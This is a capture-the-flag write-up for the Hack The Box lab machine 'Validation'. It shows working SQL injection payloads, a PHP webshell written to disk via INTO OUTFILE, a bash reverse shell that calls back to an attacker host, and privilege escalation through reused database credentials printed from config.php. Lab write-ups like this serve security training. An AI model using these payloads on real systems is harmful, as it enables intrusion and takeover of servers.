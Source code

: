 # Validation - Linux, easy (10.10.11.116)

### Enumeration:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
```

The website provides us a form in which we can specificy a username and a dropdown box to select the country.
After registering the user we are redirected to page **/account.php** in which the names of users in the country specified are listed.

Using Burp, we can inspect the requests.
We can notice that the country field (that is in a dropdown box, which means that we cannot write in it from the website our content), appears in plaintext so we can modify it.
Moreover, the page will send us a cookie called "user" when redirecting us to /account.php.
Note that the cookie will be always the same if we do not change the username!

By changing the country field in request in the folliwing way: `username=ciao&country=' OR 1=1 -- -`, we can notice that the website provides the names of all the users, even the ones from other countries.
This means that the website is *vulnerable to SQLI*!
We can guess that the SQL query on the page looks like `SELECT username from players where country = '[input]';`.

Note that if we do not append `-- -` in the country, we will receive the following error `Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33`.

To test this vulnerability in a easier way we can open two Repeater tabs in Burp, one with the POST request where we can modify username and country, and one with the GET request to /account.php where we can inspect the result.

### SQLi UNION attack
When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.
The UNION operator is used to combine the result-set of two or more SELECT statements:
1. Every SELECT statement within UNION must have the same number of columns
2. The columns must also have similar data types
3. The columns in every SELECT statement must also be in the same order

Trying `country=' Union Select 1 -- -` we do not see erros but the query returns value 1.

### Enumerating the DB
If we change 1 to user(), we can see the following name: `uhc@localhost`.
We can also enumerate the name of current database with function **database()**, and the name is `registration`.

With `username=123&country=' union select schema_name from information_schema.schemata -- -` we can obtain the names of all the DBs:
```
information_schema
performance_schema
mysql
registration
```

and the most interesting is `registration`, since the others are mysql and internals.

There is a single table in DB registration:
```
username=1232&country=' union select table_name from information_schema.tables where table_schema = 'registration' -- -
registration
```

It has four columns:
```
username=1232&country=' union select column_name from information_schema.columns where table_name = 'registration' -- -
  1. username
  2. userhash
  3. country
  4. regtime
```

Unfortunately, there's no password here!

### Getting a webshell
We can try to write a file by setting the following values: `username=csbbbbb&country=' union select "Hello I'm here" into outfile '/var/www/html/test.txt' -- -`.
Now, visiting 10.10.11.116/test.txt we should see the string!

At this point, we can try to write a simple php webshell: `username=asdadadadadad&country=' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE
'/var/www/html/shell.php'-- -`.

And it works!
```
kali@kali:~/HackTheBox/retired/Linux/easy/Validation$ curl http://10.10.11.116/shell.php?cmd= "
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To get a reverse shell just make a POST request with Burp, in the Repeater modifying the GET request that you can intercept when you visit http://10.10.11.116/shell.php, and add at the bottom the **cmd** parameter with the reverse shell URL encoded:
```
POST /shell.php HTTP/1.1
Host: 10.10.11.116
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: user=ff362afb00fa83da92fd95b38424a556
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/4444+0>%261'
```

### From www-data to Root
We cant `cat config.php` to reveal the DB credentials and notice that the password has "global-pw" in it. This may be an hint which means that the password may be used also somewhere else.
```
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";
```

Let's try `su -` with the password that we have seen to get a shell as root!

